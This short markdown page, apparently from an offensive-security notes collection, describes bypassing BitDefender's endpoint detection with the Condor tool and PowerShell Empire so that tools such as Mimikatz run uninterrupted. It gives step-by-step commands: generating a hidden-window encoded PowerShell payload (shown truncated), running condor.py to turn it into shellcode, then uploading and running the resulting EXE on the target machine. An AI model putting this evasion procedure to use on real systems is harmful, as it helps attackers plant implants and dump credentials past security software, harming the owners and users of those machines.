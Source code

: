 # BitDefender

## Using Condor + Powershell Empire

The [condor](https://github.com/MrEmpy/Condor) tool is also able to bypass BitDefender's EDR, including running Powershell Empire's own tools without any interruption, such as Mimikatz.

1. Open your Powershell Empire and generate a Powershell payload, example:

```
powershell -Sta -Nop -Window Hidden -EncodedCommand cwB2ACAAbwAgACg...
```

1. Run the condor tool with the following command:

```
python3 condor.py -p windows/x64/exec
```

1. Paste the Powershell payload to generate the shellcode

![](<../BitDefender Endpoint Security Tool/Images/bitdefender2.png>)

1. Upload the EXE to the machine and run.

![](<../BitDefender Endpoint Security Tool/Images/bitdefender.png>)
